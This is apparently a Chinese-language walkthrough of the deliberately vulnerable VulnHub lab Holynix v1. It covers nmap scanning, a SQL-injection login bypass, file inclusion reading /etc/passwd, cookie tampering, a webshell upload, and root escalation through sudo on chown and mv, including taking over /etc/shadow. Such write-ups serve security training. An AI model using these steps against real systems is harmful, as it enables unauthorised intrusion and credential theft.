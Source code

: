 # Holynix：v1

> [https://www.vulnhub.com/entry/holynix-v1,20/](https://www.vulnhub.com/entry/holynix-v1,20/)
> 

## 主机发现端口扫描

1. 探测存活主机，`153`为靶机
    
    ```php
    nmap -sP 192.168.75.0/24      
    //                      
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-25 19:09 CST
    Nmap scan report for 192.168.75.1
    Host is up (0.00026s latency).
    MAC Address: 00:50:56:C0:00:08 (VMware)
    Nmap scan report for 192.168.75.2
    Host is up (0.00026s latency).
    MAC Address: 00:50:56:FB:CA:45 (VMware)
    Nmap scan report for 192.168.75.153
    Host is up (0.0016s latency).
    MAC Address: 00:0C:29:BC:05:DE (VMware)
    Nmap scan report for 192.168.75.254
    Host is up (0.0013s latency).
    MAC Address: 00:50:56:FB:E7:F4 (VMware)
    Nmap scan report for 192.168.75.151
    Host is up.
    
    ```
    
2. 扫描主机所有端口
    
    ```php
    nmap -sT -min-rate 10000 -p- 192.168.75.153     
    //    
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-25 19:10 CST
    Nmap scan report for 192.168.75.153
    Host is up (0.00054s latency).
    Not shown: 65534 closed tcp ports (conn-refused)
    PORT   STATE SERVICE
    80/tcp open  http
    MAC Address: 00:0C:29:BC:05:DE (VMware)
    ```
    
3. 扫描服务版本及系统版本
    
    ```php
    nmap -sT -sV -O -p80 192.168.75.153    
    //   
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-25 19:11 CST
    Nmap scan report for 192.168.75.153
    Host is up (0.0012s latency).
    
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch)
    MAC Address: 00:0C:29:BC:05:DE (VMware)
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: general purpose
    Running: Linux 2.6.X
    OS CPE: cpe:/o:linux:linux_kernel:2.6
    OS details: Linux 2.6.24 - 2.6.25
    Network Distance: 1 hop
    ```
    
4. 扫描漏洞
    
    ```sql
    nmap -script=vuln -p80 192.168.75.153    
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-25 19:12 CST
    Nmap scan report for 192.168.75.153
    Host is up (0.00059s latency).
    
    PORT   STATE SERVICE
    80/tcp open  http
    |_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
    |_http-dombased-xss: Couldn't find any DOM based XSS.
    | http-csrf: 
    | Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.75.153
    |   Found the following possible CSRF vulnerabilities: 
    |     
    |     Path: http://192.168.75.153:80/?page=login.php
    |     Form id: 
    |     Form action: /index.php?page=login.php
    |     
    |     Path: http://192.168.75.153:80/index.php?page=login.php
    |     Form id: 
    |_    Form action: /index.php?page=login.php
    | http-slowloris-check: 
    |   VULNERABLE:
    |   Slowloris DOS attack
    |     State: LIKELY VULNERABLE
    |     IDs:  CVE:CVE-2007-6750
    |       Slowloris tries to keep many connections to the target web server open and hold
    |       them open as long as possible.  It accomplishes this by opening connections to
    |       the target web server and sending a partial request. By doing so, it starves
    |       the http server's resources causing Denial Of Service.
    |       
    |     Disclosure date: 2009-09-17
    |     References:
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
    |_      http://ha.ckers.org/slowloris/
    |_http-trace: TRACE is enabled
    | http-sql-injection: 
    |   Possible sqli for queries:
    |     http://192.168.75.153:80/?page=login.php%27%20OR%20sqlspider
    |     http://192.168.75.153:80/?page=login.php%27%20OR%20sqlspider
    |     http://192.168.75.153:80/index.php?page=login.php%27%20OR%20sqlspider
    |     http://192.168.75.153:80/?page=login.php%27%20OR%20sqlspider
    |     http://192.168.75.153:80/index.php?page=login.php%27%20OR%20sqlspider
    |_    http://192.168.75.153:80/?page=login.php%27%20OR%20sqlspider
    | http-enum: 
    |   /login.php: Possible admin folder
    |   /login/: Login page
    |   /home/: Potentially interesting folder
    |   /icons/: Potentially interesting folder w/ directory listing
    |   /img/: Potentially interesting folder
    |   /index/: Potentially interesting folder
    |   /misc/: Potentially interesting folder
    |   /transfer/: Potentially interesting folder
    |_  /upload/: Potentially interesting folder
    |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
    MAC Address: 00:0C:29:BC:05:DE (VMware)
    ```
    
    一些页面可能存在`sql`注入以及`csrf` ，和一些让人感兴趣的目录
    

## web渗透

1. `Login`页面可能存在`sql`注入
    
    尝试后`name`框不存在注入，`password`框存在注入
    
    使用万能密码`1'or'1` 进入后台
    
2. 进入后台用户是`alamo` 
    
    看到有`upload`，尝试上传`shell`，显示该用户不允许上传文件
    
    `security`页面存在本文件包含，是个下拉选项框，可以修改属性达到包含本地目录，因为他的属性就是路径，修改为`/etc/passwd`
    
    ```sql
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/bin/sh
    bin:x:2:2:bin:/bin:/bin/sh
    sys:x:3:3:sys:/dev:/bin/sh
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/bin/sh
    man:x:6:12:man:/var/cache/man:/bin/sh
    lp:x:7:7:lp:/var/spool/lpd:/bin/sh
    mail:x:8:8:mail:/var/mail:/bin/sh
    news:x:9:9:news:/var/spool/news:/bin/sh
    uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
    proxy:x:13:13:proxy:/bin:/bin/sh
    www-data:x:33:33:www-data:/var/www:/bin/sh
    backup:x:34:34:backup:/var/backups:/bin/sh
    list:x:38:38:Mailing List Manager:/var/list:/bin/sh
    irc:x:39:39:ircd:/var/run/ircd:/bin/sh
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
    nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
    libuuid:x:100:101::/var/lib/libuuid:/bin/sh
    dhcp:x:101:102::/nonexistent:/bin/false
    syslog:x:102:103::/home/syslog:/bin/false
    klog:x:103:104::/home/klog:/bin/false
    sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
    mysql:x:105:114:MySQL Server,,,:/var/lib/mysql:/bin/false
    alamo:x:1000:115::/home/alamo:/bin/bash
    etenenbaum:x:1001:100::/home/etenenbaum:/bin/bash
    gmckinnon:x:1002:100::/home/gmckinnon:/bin/bash
    hreiser:x:1003:50::/home/hreiser:/bin/bash
    jdraper:x:1004:100::/home/jdraper:/bin/bash
    jjames:x:1005:50::/home/jjames:/bin/bash
    jljohansen:x:1006:115::/home/jljohansen:/bin/bash
    ltorvalds:x:1007:113::/home/ltorvalds:/bin/bash
    kpoulsen:x:1008:100::/home/kpoulsen:/bin/bash
    mrbutler:x:1009:50::/home/mrbutler:/bin/bash
    rtmorris:x:1010:100::/home/rtmorris:/bin/bash
    ```
    
3. 抓包查看，发现`cookie`设置当前`uid=1`，尝试修改`cookie`的`uid=2`，切换用户成功，切换到了`etenenbaum` ，尝试上传`shell`文件(shell文件使用`/usr/shar/lau../php`里面的，我自己上传的`shell`有问题)
    
    ![image.png](image%2018.png)
    
    上传成功，因为标题显示`home`目录`upload`，所以存放在`/~etenenbaum` 
    
    打开文件发现失败，可能是权限不够，我们勾选自动解压看看是否能执行
    
    将文件使用gizp压缩后上传，在访问家目录，发现存在shell文件了
    
    ![image.png](image%2019.png)
    
    点开始空白页，就表示可以执行，应该是两种方式上传后的权限不一样
    
    ps：假如压缩包上传不了，抓包将`MIME`的`x-gzip`改为`gizp`就行，可以文件包含漏洞包含`transfer.php`代码审计
    
4. `kali`监听`1234`端口，然后访问`shell`文件，获得shell

## 提权

1. 查看权限
    
    ```sql
    www-data@holynix:/$ whoami 
    www-data
    //
    www-data@holynix:/$ uname -a
    Linux holynix 2.6.24-26-server #1 SMP Tue Dec 1 19:19:20 UTC 2009 i686 GNU/Linux
    //
    www-data@holynix:/$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    //
    www-data@holynix:/$ sudo -l
    User www-data may run the following commands on this host:
        (root) NOPASSWD: /bin/chown
        (root) NOPASSWD: /bin/chgrp
        (root) NOPASSWD: /bin/tar
        (root) NOPASSWD: /bin/mv
    ```
    
    好几条存在sudo不用密码的，可能可以利用
    
2. mv可以干很多事
    - 改`shadow`所属组
        
        ```sql
        www-data@holynix:/home$ sudo chown www-data /etc/shadow
        
        ```
        
        然后使用`john`破解
        
    - 将`/bin/su`替换成`/bin/tar`那么我们就拥有`root shell`了
        
        ```sql
        www-data@holynix:/home$ sudo mv /bin/tar /bin/tar.b
        www-data@holynix:/home$ sudo mv /bin/su /bin/tar
        www-data@holynix:/home$ sudo /bin/tar
        root@holynix:/home# 
        ```